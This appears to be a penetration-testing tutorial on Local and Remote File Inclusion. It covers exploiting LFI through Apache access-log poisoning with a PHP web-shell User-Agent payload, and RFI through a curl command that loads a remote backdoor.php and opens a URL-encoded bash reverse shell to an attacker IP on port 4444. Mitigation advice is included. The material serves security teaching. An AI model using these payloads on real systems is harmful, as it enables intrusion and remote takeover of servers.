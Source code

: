 # File Inclusion Vulnerabilities: LFI and RFI RCE with URL encoding

# Technical Executive Summary
# Understanding File Inclusion Vulnerabilities

Saverity: Medium - Critical 
Depends on the content that you can display

File Inclusion vulnerabilities, including Local File Inclusion (LFI) and Remote File Inclusion (RFI), are critical security issues that can lead to severe consequences such as unauthorized access, data breaches, and remote code execution. These vulnerabilities arise when a web application allows the inclusion of files without proper validation and sanitization of user inputs.
Local File Inclusion (LFI)

LFI occurs when a web application includes files from the local server's filesystem. This can be exploited to read sensitive files, execute code, and gain unauthorized access to the system. One common technique to exploit LFI is through Log Poisoning, where malicious code is injected into log files that are later included by the web application.
Remote File Inclusion (RFI)

RFI is a more dangerous variant that allows the inclusion of files from remote servers. This can lead to remote code execution by including and executing malicious scripts hosted externally. Exploiting RFI typically involves hosting a malicious file and crafting a URL to include it in the vulnerable web application.
Exploitation Techniques

    Identifying Vulnerabilities: Penetration testers use various techniques and tools to identify LFI and RFI vulnerabilities, such as fuzzing and analyzing HTTP responses.
    Log Poisoning: For LFI, testers inject malicious payloads into log files or other writable files on the server to execute code.
    Crafting Exploit URLs: For RFI, testers prepare and host malicious files on remote servers and craft URLs to include these files in the web application.

# Mitigation Strategies

To mitigate these vulnerabilities, web developers should:

    Validate and sanitize all user inputs.
    Disable unnecessary features like allow_url_include in PHP.
    Implement strict access controls to sensitive files and directories.
    Regularly update and patch web application frameworks and libraries.

# Role of Penetration Testers

Penetration testers play a crucial role in identifying and mitigating file inclusion vulnerabilities. By simulating real-world attack scenarios, they help organizations understand their security posture and implement effective countermeasures. Testers use a combination of manual techniques and automated tools to discover vulnerabilities and provide actionable recommendations for remediation.
Conclusion
File Inclusion vulnerabilities pose a significant risk to web applications and can lead to devastating security breaches if not properly addressed. Understanding the mechanisms behind LFI and RFI, along with employing robust security practices, is essential for protecting web applications from these attacks. Penetration testers provide valuable insights and expertise in identifying and mitigating these vulnerabilities, ensuring the security and integrity of web systems.



## Local File Inclusion (LFI)

### Overview

Local File Inclusion (LFI) vulnerabilities allow attackers to include files from the server's filesystem into the running code of a web application. This can lead to Remote Code Execution (RCE) if the included files contain executable code.

### Difference Between LFI and Directory Traversal

- **Directory Traversal**: Allows reading files outside the web root directory.
- **File Inclusion**: Allows including and potentially executing files within the web application's running code.

### Exploiting LFI with Log Poisoning

#### Step-by-Step Example

1. **Identify the Vulnerability**: Find a vulnerable parameter in the web application that accepts file paths.
2. **Modify Log Entries**: Use tools like `curl` to send data to the web application that gets logged.
3. **Include the Log File**: Use the LFI vulnerability to include the modified log file, executing the payload.

#### Practical Example

```bash
kali@kali:~$ curl http://example.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
Modify the User Agent in Burp Suite to include a PHP code snippet:
```bash
<?php echo system($_GET['cmd']); ?>
```
Send the modified request and include the log file:
```bash
../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
Output Example
```bash
www-data@fbea640f9802:/var/www/html/meteor$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
# Remote File Inclusion (RFI)
## Overview

Remote File Inclusion (RFI) vulnerabilities allow attackers to include files from remote servers. This can be more dangerous than LFI because it allows attackers to execute code from external sources.
Exploiting RFI
Step-by-Step Example

    Identify the Vulnerability: Find a vulnerable parameter in the web application that accepts file paths.
    Host a Malicious File: Prepare and host a malicious PHP file on a remote server.
    Craft the Exploit URL: Include the remote file in the vulnerable parameter and pass commands to it.

Practical Example
```bash
curl "http://example.com/meteor/index.php?page=http://192.168.45.184/backdoor.php&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.184%2F4444%200%3E%261%22"
```

### Conclusion

By understanding and exploiting RFI vulnerabilities, attackers can include and execute remote files on a target system, leading to severe security breaches. Proper security measures, such as disabling allow_url_include and validating input parameters, are essential to prevent such attacks.


